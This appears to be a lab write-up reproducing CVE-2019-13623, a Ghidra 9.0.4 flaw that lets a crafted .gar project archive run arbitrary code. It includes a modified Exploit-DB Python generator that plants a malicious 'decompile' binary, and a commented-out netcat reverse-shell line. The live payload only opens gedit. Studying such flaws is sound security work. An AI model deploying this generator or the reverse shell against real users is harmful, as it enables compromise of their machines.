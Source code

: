 ```yaml
---
title: "Ghidra"
categories:
  - Project Malware Analysis
tags:
  - malware
  - software analysis
---
```


# 1. Ghidra (Linux) 9.0.4 - .gar Arbitrary Code Execution
## Info
- [Ghidra](https://ghidra-sre.org/) is the reverse engineering tool that can be used in Linux.
- Root cause of vulnerability or how it works can be found here: [Author's note](https://blog.fxiao.me/ghidra/).
    - Author's tutorial is here: [Youtube demo](https://www.youtube.com/watch?v=RGqQMUd9hZM)
- Install from [Ghidra Official Webpage](https://ghidra-sre.org/releaseNotes_9.0.4.html).
    - You need to install exact version mentioned in [Exploit-db](https://www.exploit-db.com/exploits/47231) or [CVE-2019-13623 Detail](https://nvd.nist.gov/vuln/detail/CVE-2019-13623).
    - Also, using Ubuntu 18 LTS ver is recommended as mentioned.

## Procedure
1. Using Ghidra, make empty project (e.g., proj_mal).
    1. Import `a.out`. `a.out` means nothing. This is because project just needs any bin to analyze.
    1. Archive this project.
1. Editing malicious gar file generator you downloaded from [Exploit-db](https://www.exploit-db.com/exploits/47231).
    - Here, I just simply wrote lines 18 instead of 19 as previous code is hard to check and it doesn't matter.
    - This code intends that Ghidra executes arbitrary code: opens the gedit.
    ```python=
    import os
    import inspect
    import argparse
    import shutil
    from shutil import copyfile

    parser = argparse.ArgumentParser()
    parser.add_argument("file", help="Path to input export .gar file",default=1)
    parser.add_argument("ip", help="Ip to nc listener",default=1)
    parser.add_argument("port", help="Port to nc listener",default=1)

    args = parser.parse_args()

    if args.ip and args.port and args.file:

        rootDirURL=os.path.dirname(os.path.abspath(inspect.getfile(inspect.currentframe())))
        path = "../Ghidra/Features/Decompiler/os/linux64/decompile"
        os.system("mkdir -p ../Ghidra/Features/Decompiler/os/linux64/")
    #    os.system("echo 'rm -f x; mknod x p && nc "+args.ip+" "+args.port+" 0<x | /bin/bash 1>x' > decompile")
        os.system("echo 'gedit' > decompile")
        os.system("chmod +x decompile")
        copyfile("decompile",path)
        copyfile(args.file,rootDirURL+"/"+"project.gar")
        os.system("zip -q project.gar ../Ghidra/Features/Decompiler/os/linux64/decompile")
        os.system("echo 'To fully export this archive, place project.gar to GHIDRA_INSTALL_DIR root path and open it with Restore Project at Ghidra.' > README_BEFORE_OPEN_GAR_FILE")
        os.system("zip -q project.zip README_BEFORE_OPEN_GAR_FILE")    
        os.system("zip -q project.zip project.gar") 
        os.system("rm decompile README_BEFORE_OPEN_GAR_FILE")
        os.system("rm project.gar")
    ```
1.  Run mal.py.
`python3 mal.py proj_mal.gar 123 4444`
1. Extract zip file in Ghidra folder.
1. Run Ghidra again and restore project `proj_mal.gar`.
    - You can see `a.out`
    ![](https://i.imgur.com/Lu3lDwv.png)
    - Double click `a.out` then it will ask you whether you want to analyze it automatically or not. Click yes and analyze button.
    - Then you can see gedit is opened twice.
    ![](https://i.imgur.com/EwlTc6o.png)

## Execution without GUI (for automation)

- For automation, you have to use <mark>'Headless Analyzer'</mark> instead of GUI.
    - For more detailed command options, refer analyzeHeadlessREADME.html in support folder.
- :star: Type below code in terminal. This command also triggers what we intended like above procedure. 
`./support/analyzeHeadless ./ exp_01 -process '*.out'`
    - `exp_01` is the project name user set.
    - You can see Java logs as well as below report in terminal.
![](https://i.imgur.com/ORGRFzn.png)
    - Also, what attacker wanted can be observed as follows. Arbitrary code is executed: gedit is opended twice.
![](https://i.imgur.com/ZE1d2xP.png)
- Then, you may make your own bash script or python program whatever you want along with an experiment process including editing bite or getting messages from debugging tool.